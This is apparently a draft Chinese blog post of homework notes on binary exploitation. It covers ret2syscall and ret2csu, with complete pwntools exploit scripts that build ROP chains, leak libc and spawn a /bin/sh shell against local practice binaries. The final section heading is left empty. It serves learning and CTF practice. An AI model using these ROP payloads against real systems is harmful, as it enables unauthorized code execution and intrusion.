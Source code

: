 ```yaml
---
title: Pwn
subtitle:
date: 2024-09-28T11:11:56+08:00
draft: true
author:
  name: 瞻鹤
  link:
  email: he-zhan@outlook.com
  avatar: /images/avatar.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 
categories:
  - homework
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRss: false
hiddenFromRelated: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->	

[toc]

## Ret2

- ret2text——程序中有system("/bin/sh")代码段，控制流执行
- ret2shellcode——程序中不存在system("/bin/sh/")的代码段，自己恶意填入代码并在可执行段执行 
- ret2syscall——程序中不存在system("/bin/sh/")的代码段，不存在合适的可执行段进行恶意代码的执行，但是程序是**静态链接，且程序中中存在代码片段，拼接可组成系统调用** 

### Ret2syscall

~~~ c
execve("/bin/sh",NULL,NULL)
~~~

修改寄存器的值，并触发系统调用。

- 系统调用号，即 eax 应该为 0xb，因为是execve所以是0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

1. checksec看一下程序属性，然后file一下看一下是不是静态链接
2. 寻找可用gadget

~~~shell
ROPgadget --binary rop --only 'pop|ret' | grep 'eax'
ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
ROPgadget --binary rop  --only 'pop|ret' | grep 'ecx'
ROPgadget --binary rop  --only 'pop|ret' | grep 'edx' 
ROPgadget --binary rop  --string '/bin/sh'
ROPgadget --binary rop  --only 'int' 

有些题目可以一把梭
ROPgadget --binary rop --ropchain
ropper --file inndy_rop --chain execveropper --file inndy_rop --chain execve
~~~

payload示例

~~~ python
from pwn import *
 
gadget_eax_ret_addr=0x080bb196
gadget_edx_ecx_ebx_ret=0x0806eb90
bin_sh_addr=0x080be408
int_0x80_addr=0x08049421
 
context(os='linux',arch='i386',log_level='debug')
sh=process('./rop')
payload=b'a'*112+p32(gadget_eax_ret_addr)+p32(0xb)+ \
        p32(gadget_edx_ecx_ebx_ret)+p32(0)+p32(0)+p32(bin_sh_addr)+ \
        p32(int_0x80_addr)
sh.sendline(payload)
sh.interactive()
~~~

x64

64位与32位不同，需要注意以下几点：

1.execve系统调用号不同：64位系统调用号为0x3b 2.存放系统调用号的寄存器不同：64位系统调用号存放在rax 3.存储参数的寄存器不同：64位存储参数的寄存器为：rdi，rsi，rdx，r10，r8，r9 4.中断不同：32位为int 80，64位为syscal

### Ret2csu

~~~
在64 位程序中，函数的前6个参数是通过寄存器传递的 但是大多数时候 我们很难找到每一个寄存器对应的gadgets 这时候 我们可以利用 x64下的 __libc_csu_init 中的 gadgets 这个函数是用来对 libc 进行初始化操作的 而一般的程序都会调用libc 函数 所以这个函数一定会存在
可以控制rbx,rbp,r12,r13,r14,r15以及rdx,rsi,edi的值，并且还可以call我们指定的地址。然后劫持程序执行流的时候，劫持到这个__libc_csu_init函数去执行（这个函数是用来初始化libc的，因此只要是动态链接的程序就都会有这个函数（至少我还没有遇见过特殊情况）），从而达到控制参数的目的。
~~~

gadget1

~~~ asm
add rsp, 8
pop rbx //一般从这条指令开始
pop rbp //通常零rbx值为0， rbp值为1，目的是在gadget2中call的地址为r12而不用管rbx。同时gadget2中rbx+1后与rbp相等时，不会跳转到gadget2中的地址0x400580,所以rbx为0，rbp为1
pop r12
pop r13
pop r14
pop r15
//以上四个寄存器的值根据gadget2中mov语句不同而与其他寄存器有不同的关系
retn
~~~

gadget2

~~~ asm
mov rdx, r13
mov rsi, r14
mov edi, r15d
//想用ret2csu去把rdi里存放成一个地址是不可行的
call qword ptr [r12 + rbx * 8]
add rbx, 1
cmp rbx, rbp
jnz short loc_400580
~~~

先执行gadget1，再执行gadget2，然后顺序往下再执行gadget1。

如果不需要再一次控制参数的话，那我们此时把栈中的数据填充56（7*8）个垃圾数据即可。

如果我们还需要继续控制参数的话，那就此时不填充垃圾数据，继续去控制参数，总之不管干啥呢，这里都要凑齐56字节的数据，以便我们执行最后的ret，最后ret去执行我们想要执行的函数即可。

~~~ python
from pwn import *
file_path='./level5'
context(binary=file_path,os='linux',terminal = ['tmux', 'sp', '-h'])
p = process(file_path)
elf = ELF(file_path)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
main_addr = 0x400564
write_got = elf.got['write']
read_got = elf.got['read']
gadget1 = 0x400606
gadget2 = 0x4005F0
bss_addr = 0x601028

#payload = b'A'*0x80+b'B'*8+p64(gadget1)+b'C'*8+b'D'*8+b'E'*8+b'F'*8+b'G'*8+b'H'*8#show how to set register
#######################leak libc###############################
payload1 = b'A'*0x80+b'B'*8      #padding
payload1 += p64(gadget1)         #ret
payload1 += p64(0)               #rsp
payload1 += p64(0)               #rbx
payload1 += p64(1)               #rbp
payload1 += p64(write_got)       #r12
payload1 += p64(1)               #r13 edi
payload1 += p64(write_got)       #r14 rsi
payload1 += p64(8)               #r15 rdx
payload1 += p64(gadget2)
payload1 += b'\x00'*0x38         #padding 0x38 = 56
payload1 += p64(main_addr)            #等待第二次触发漏洞
#gdb.attach(p,'b *0x400562')
p.sendafter('Hello, World\n',payload1)

write_addr = u64(p.recv(8))
libc_base = write_addr - libc.sym['write']
system_addr = libc_base + libc.sym['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

success("libc_base:{}".format(hex(libc_base)))
success("system_addr:{}".format(hex(system_addr)))
success("binsh:{}".format(hex(binsh)))

#######################read(0,bss,8) system_addr###############################
payload2 = b'A'*0x80+b'B'*8      #padding
payload2 += p64(gadget1)         #ret
payload2 += p64(0)               #rsp
payload2 += p64(0)               #rbx
payload2 += p64(1)               #rbp
payload2 += p64(read_got)        #r12 ret
payload2 += p64(0)               #r13 edi
payload2 += p64(bss_addr)        #r14 rsi
payload2 += p64(16)              #r15 rdx
payload2 += p64(gadget2)
payload2 += b'\x00'*0x38         #padding
payload2 += p64(main_addr)            #等待第二次触发漏洞
p.sendafter('Hello, World\n',payload2)
sleep(1)
p.send(p64(system_addr)+b'/bin/sh\x00') #有人问 为什么要写入/bin/sh 而不是利用libc中的/bin/sh 那是因为我们再给rdi赋值只能.....
sleep(1)

#######################system('/bin/sh') system_addr###############################
payload3 = b'A'*0x80+b'B'*8      #padding
payload3 += p64(gadget1)         #ret
payload3 += p64(0)               #rsp
payload3 += p64(0)               #rbx
payload3 += p64(1)               #rbp
payload3 += p64(bss_addr)        #r12 ret
payload3 += p64(bss_addr+8)      #r13 edi无法完整赋值
payload3 += p64(0)               #r14 rsi
payload3 += p64(0)               #r15 rdx
payload3 += p64(gadget2)
payload3 += b'\x00'*0x38         #padding
payload3 += p64(main_addr)            #等待第二次触发漏洞
p.sendafter('Hello, World\n',payload3)

p.interactive()
~~~

### Ret2reg



